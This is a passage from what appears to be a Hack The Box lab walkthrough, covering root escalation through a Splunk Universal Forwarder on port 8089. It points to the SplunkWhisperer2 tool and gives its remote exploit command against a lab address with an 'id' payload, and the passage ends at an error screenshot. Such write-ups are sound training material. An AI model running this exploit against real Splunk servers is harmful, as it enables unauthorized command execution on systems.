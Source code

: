 

There it is. The **user flag** is ours. Now we can head back to HTB, submit it, and move on to the real challenge, getting root. Feels cool to say it doesn't it? On some Mr. Robot type stuff.

***

### Revisiting Splunk for Root Escalation

During our initial Nmap scan, we noticed Splunk running on port 8089. Splunk has a management interface that might allow command execution if we have valid credentials. First, verify Splunk is running:

`ps aux | grep splunk`

* `ps aux` displays all running processes.
* `grep splunk` filters the list to show only lines containing "splunk."

<figure><img src="../../../.gitbook/assets/grep-splunk-proc.png" alt=""><figcaption></figcaption></figure>



Splunk is indeed active.

A quick Google search led me to this page:

[SplunkWhisperer2 - Splunk Universal Forwarder Hijacking](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/)

And the GitHub repo for the tool:

[SplunkWhisperer2 GitHub](https://github.com/cnotin/SplunkWhisperer2)

If you’ve never done a box like this before, don’t be surprised if you need to download extra tools that weren’t in your original game plan. That’s normal in both CTFs and real-world pentesting. The more tools you get comfortable with, the better.

One issue I ran into—HTB’s VPN connection was **blocking** my download from GitHub. If you have the same problem, just **disconnect from the VPN, download the tool, and reconnect**.

***

#### Exploiting Splunk Universal Forwarder

We attempt a simple command:

`python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.38 --payload id`

<figure><img src="../../../.gitbook/assets/pySplunkError (1).png" alt=""><figcaption></figcaption></figure>
